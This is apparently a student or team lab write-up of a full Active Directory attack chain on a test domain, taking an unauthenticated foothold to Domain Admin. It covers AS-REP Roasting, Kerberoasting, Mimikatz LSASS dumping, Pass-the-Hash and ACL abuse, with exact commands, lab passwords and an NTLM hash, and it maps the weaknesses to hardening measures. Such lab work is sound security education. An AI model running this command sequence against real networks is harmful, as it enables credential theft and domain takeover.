# Active Directory Attack Chain Demo — `adlab.local`

> Attack simulation lab reproducing classic AD attack techniques (MITRE ATT&CK): **AS-REP Roasting → Password Reuse → Pass-the-Hash → Kerberoasting → ACL Abuse**, starting from an unauthenticated foothold and ending with full **Domain Admin** compromise.
>
> The infrastructure build-out and the Hardening countermeasures (GPO, LAPS, Protected Users, Kerberos RC4→AES upgrade) are covered separately by other team members - this write-up only covers the **attack simulation**.

## Lab Topology

| Host | IP | Role |
|---|---|---|
| DC01 | `10.10.10.10` | Domain Controller — Windows Server 2022 Build 20348 |
| WS01 | `10.10.10.11` | Domain-joined workstation — Windows 10 / Server 2019 Build 19041 |
| WS02 | `10.10.10.12` | Domain-joined workstation — Windows 10 / Server 2019 Build 19041 |
| Attacker | — | Kali Linux, pivoted into `10.10.10.0/24` via a Ligolo-ng tunnel |

## Attack Chain Overview

```
[Pivot into 10.10.10.0/24]
        |
        v
Recon (Nmap + rpcclient null session) --> identify domain ADLAB, DC01
        |
        v
Valid username enumeration (Kerbrute userenum) --> svc_sql, svc_legacy, duc, duong, chi
        |
        v
AS-REP Roasting (svc_legacy — preauth disabled) --> offline crack --> password "princesita"
        |
        v
Password Reuse: "princesita" also works for domain user "duc" (local admin on WS01)
        |
        v
Logon to WS01 as duc --> dump LSASS (Mimikatz) --> leaked NTLM hash of the domain Administrator
        |
        v
Pass-the-Hash: use Administrator's NTLM hash --> local admin on WS02 (no password needed)
        |
        v
Kerberoasting (using svc_legacy creds) --> request svc_sql's TGS --> offline crack --> "1qaz2wsx"
        |
        v
BloodHound (collected with svc_sql creds) --> svc_sql is a member of group "ITSupport",
which has GenericAll over "Domain Admins"
        |
        v
ACL Abuse: add svc_sql to "Domain Admins" --> full Domain Admin
```

A graphical version of this attack path (`AD_Attack_Chain.drawio`, viewable at [app.diagrams.net](https://app.diagrams.net)) is included in this repo.

## MITRE ATT&CK Mapping

| Step | Technique | MITRE ID | Tooling |
|---|---|---|---|
| Domain recon (null session) | Account Discovery | T1087.002 | rpcclient, nmap |
| Username enumeration | Gather Victim Identity Info | T1589.001 | Kerbrute |
| AS-REP Roasting (`svc_legacy`) | Steal/Forge Kerberos Tickets — AS-REP | T1558.004 | Impacket `GetNPUsers`, Hashcat |
| Password reuse (`svc_legacy` → `duc`) | Valid Accounts | T1078 | NetExec (`nxc`) |
| Credential dumping from LSASS (Administrator hash) | OS Credential Dumping — LSASS Memory | T1003.001 | Mimikatz |
| Pass-the-Hash (WS01 → WS02) | Use Alternate Authentication Material — PtH | T1550.002 | NetExec, Evil-WinRM |
| Kerberoasting (`svc_sql`) | Steal/Forge Kerberos Tickets — Kerberoasting | T1558.003 | Impacket `GetUserSPNs`, Hashcat |
| ACL abuse (`ITSupport` → `Domain Admins`) | Account Manipulation | T1098 | BloodHound, BloodyAD |

---

## 1. Initial Recon & Pivot

**Null session** is an unauthenticated SMB/RPC connection (empty username, no password). If the Domain Controller doesn't restrict it, an attacker can query basic domain info (domain name, SID, user/group listings) with zero credentials — a classic first recon step.

Port scan DC01 to confirm it's a Domain Controller:

```bash
nmap -Pn -p- 10.10.10.10
```


*Typical AD DC ports exposed: 53/88/135/139/445/464/593/636/3268/3269/5985.*

Confirm the domain name and SID via an anonymous null session:

```bash
rpcclient -U "" -N 10.10.10.10
rpcclient $> lsaquery
```


*`Domain Name: ADLAB`, full Domain SID leaked with zero authentication.*

**Attack vector:** anonymous enumeration / null session allowed on the domain, leaking the Domain SID without authentication - later used to compute RIDs for every account (**T1087.002**).

## 2. Valid Username Enumeration

Kerberos pre-authentication reveals, via distinct AS-REQ error codes, whether a given username exists in the domain - without ever needing a password, and without generating a failed-logon event on the DC.

```bash
~/go/bin/kerbrute userenum -d adlab.local --dc 10.10.10.10 -t 10 targeted.txt
```


*5/11 valid usernames confirmed: `svc_sql`, `chi`, `duc`, `duong`, `svc_legacy`.*

**Attack vector:** Kerberos pre-auth response differences allow full username enumeration (**T1589.001** / **T1087**).

## 3. AS-REP Roasting

AS-REP Roasting targets accounts with `Do not require Kerberos preauthentication` (`UF_DONT_REQUIRE_PREAUTH`) set. For these accounts an AS-REQ can be sent with no password, and the AS-REP returned contains a blob encrypted with a key derived from the account's NT hash — crackable offline, with no account-lockout risk (no failed logon ever recorded). MITRE: **T1558.004**.

Tried `svc_sql` first — not vulnerable (pre-auth is required):

```bash
impacket-GetNPUsers adlab.local/svc_sql -dc-ip 10.10.10.10 -no-pass -format hashcat
```



Tried `svc_legacy` — pre-auth disabled, AS-REP hash obtained:

```bash
impacket-GetNPUsers adlab.local/svc_legacy -dc-ip 10.10.10.10 -no-pass -format hashcat -outputfile asrep.hash
```



Offline crack with Hashcat (mode 18200) against `rockyou.txt`:

```bash
hashcat -m 18200 asrep.hash /usr/share/wordlists/rockyou.txt
```


*Cracked: `princesita`.*

Verify the credential online before moving on (always confirm manually before exploiting further):

```bash
nxc smb 10.10.10.10 -u svc_legacy -p 'princesita'
```



**Attack vector:** `svc_legacy` has Kerberos pre-auth disabled and uses a weak, dictionary-crackable password — yielding the first domain credential with zero prior access. This is the initial foothold for the entire chain.

## 4. Password Reuse & Pass-the-Hash

- **Password Reuse (T1078):** the same password is reused across multiple accounts (service accounts, or between a service account and a regular user). Once an attacker cracks or obtains one password, they try it against other accounts in the domain.
- **OS Credential Dumping from LSASS (T1003.001):** LSASS caches credential material (NTLM hashes, Kerberos tickets, sometimes plaintext via WDigest on unpatched hosts) for active logon sessions. Mimikatz reads LSASS process memory directly (requires `SeDebugPrivilege`/local admin) to extract these. Any interactive or RDP logon that ever occurred on a host can leave a recoverable hash in memory until reboot.
- **Pass-the-Hash (T1550.002):** NTLM authentication only requires proving possession of the NTLM hash via challenge-response — not the plaintext password. An attacker holding a valid NTLM hash can authenticate directly to any NTLM-capable service (SMB, WinRM, RPC…) the account has rights to, with no cracking required.

Enumerate domain computers via LDAP and resolve their IPs:

```bash
ldapsearch -x -H ldap://10.10.10.10 -D "svc_sql@adlab.local" -w '1qaz2wsx' \
  -b "DC=adlab,DC=local" "(objectClass=computer)" dNSHostName
```



```bash
nslookup WS01.adlab.local 10.10.10.10
nslookup WS02.adlab.local 10.10.10.10
```


*WS01 = `10.10.10.11`, WS02 = `10.10.10.12`.*

Re-try `princesita` against other regular user accounts — found password reuse on `duc`:

```bash
nxc smb 10.10.10.11 -u duc -p 'princesita'
```


*`duc` is a local admin on WS01, flagged `(Pwn3d!)`.*

Log on to WS01 as `duc` and dump LSASS with Mimikatz:

```powershell
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```



Among the listed sessions, a separate **interactive** logon belonging to the domain **Administrator** account was found, with its full NTLM hash exposed:


*`Domain: ADLAB`, SID ending in `-500`, `NTLM: 579da618cfbfa85247acf1f800a280a4`.*

Use that hash to Pass-the-Hash onto WS02 — no plaintext password needed:

```bash
nxc winrm 10.10.10.12 -u Administrator -H '579da618cfbfa85247acf1f800a280a4'
```



```bash
evil-winrm -i 10.10.10.12 -u Administrator -H 579da618cfbfa85247acf1f800a280a4
```


*Full admin shell on WS02 — every privilege `Enabled`.*

**Attack vector:** password reuse (T1078) establishes a foothold on WS01 as `duc`; credential dumping from LSASS (T1003.001) leaks the domain Administrator's NTLM hash left behind by a prior interactive session; Pass-the-Hash (T1550.002) then achieves lateral movement onto WS02 with full admin rights, with no plaintext password ever required.

## 5. Kerberoasting

Kerberoasting abuses service accounts (accounts with a registered Service Principal Name, SPN). Any authenticated domain user — even unprivileged — can request a Service Ticket (TGS) for these SPNs; the TGS payload is encrypted with a key derived from the service account's NTLM hash. A weak service-account password can therefore be cracked offline from this ticket, with no further interaction with the DC and no lockout risk. MITRE: **T1558.003**.

Using the `svc_legacy` credential obtained earlier, request TGS tickets for all SPN-registered accounts:

```bash
impacket-GetUserSPNs adlab.local/svc_legacy:'princesita' -dc-ip 10.10.10.10 -request -outputfile kerberoast.hash
```


*SPN `MSSQLSvc/dc01.adlab.local:1433` belongs to `svc_sql`.*



Offline crack (Hashcat mode 13100):

```bash
hashcat -m 13100 kerberoast.hash /usr/share/wordlists/rockyou.txt
```

Cracked: `1qaz2wsx`. Verify:

```bash
nxc smb 10.10.10.10 -u svc_sql -p '1qaz2wsx'
```



**Attack vector:** `svc_sql` is SPN-registered with a weak password, and Kerberos encryption is still RC4 (easier to crack than AES) — yielding a fresh domain credential used as the stepping stone for the final privilege escalation.

## 6. BloodHound & ACL Abuse

**BloodHound** collects AD relationship data (users, groups, computers, GPOs, ACLs, logon sessions…) and renders it as a graph in Neo4j. From this graph it can automatically surface **Attack Paths** — chains of relationships/permissions that let a low-privilege account escalate to Domain Admin, even through several layers of indirection (nested group membership, inherited ACLs) that are hard to spot manually.

**ACL Abuse / `GenericAll` (T1098):** every AD object carries an Access Control List governing who can do what to it. `GenericAll` grants full control — on a group, that includes adding/removing members. If an intermediate group is misconfigured with `GenericAll` over a sensitive group (e.g. `Domain Admins`), any member of that intermediate group — with no direct rights of their own — can add themselves to the sensitive group and escalate immediately. This is one of the most common and most dangerous AD misconfigurations in the wild.

Collect AD data with the freshly obtained `svc_sql` credential:

```bash
bloodhound-python -u svc_sql -p '1qaz2wsx' -d adlab.local -ns 10.10.10.10 -c All
```


*3 computers, 9 users, 54 groups, 2 GPOs, 2 OUs, 19 containers collected.*

Import into BloodHound CE and analyze the escalation path from `svc_sql`:


*`SVC_SQL --MemberOf--> ITSUPPORT --GenericAll--> DOMAIN ADMINS`. `svc_sql` has no direct rights on Domain Admins, but inherits them through the ITSupport group.*

Exploit with BloodyAD — add `svc_sql` to `Domain Admins` using the inherited `GenericAll`:

```bash
bloodyAD --host 10.10.10.10 -d adlab.local -u svc_sql -p '1qaz2wsx' add groupMember "Domain Admins" svc_sql
```



Confirm full Domain Admin rights directly on DC01:

```bash
nxc winrm 10.10.10.10 -u svc_sql -p '1qaz2wsx'
```


*Full Domain Admin compromise achieved.*

**Attack vector:** ACL Abuse / Privilege Escalation via Group Membership (**T1098**, overlapping **T1484 — Group Policy/Domain Object Modification** depending on classification) — an intermediate group (`ITSupport`) was misconfigured with `GenericAll` over `Domain Admins`. This is a textbook example of an AD attack path that isn't a straight line of direct privileges, but runs through intermediate groups — exactly the kind of relationship BloodHound surfaces far faster than manual review.

---

## Conclusion — Weaknesses Identified

| # | Weakness | Exploited by |
|---|---|---|
| 1 | `svc_legacy` has Kerberos pre-auth disabled with a weak, dictionary-crackable password | AS-REP Roasting |
| 2 | Password reuse between a service account (`svc_legacy`) and a regular user (`duc`) | Password spraying with cracked creds |
| 3 | A domain Administrator interactive session left credential material in LSASS on WS01; no LSASS protection (Credential Guard/LSA Protection) and no restriction on where Administrator may log on (Protected Users / Authentication Policy Silos) | Credential dumping + Pass-the-Hash |
| 4 | `svc_sql` (SPN-registered) uses a weak password, and Kerberos encryption is still RC4 | Kerberoasting |
| 5 | Intermediate group `ITSupport` misconfigured with `GenericAll` over `Domain Admins`, violating least-privilege | BloodHound-guided ACL abuse |

These findings map directly to the Hardening measures implemented by the rest of the team: GPO password/pre-auth policy enforcement, LAPS for local admin passwords, the Protected Users group for sensitive accounts, and upgrading Kerberos encryption from RC4 to AES.
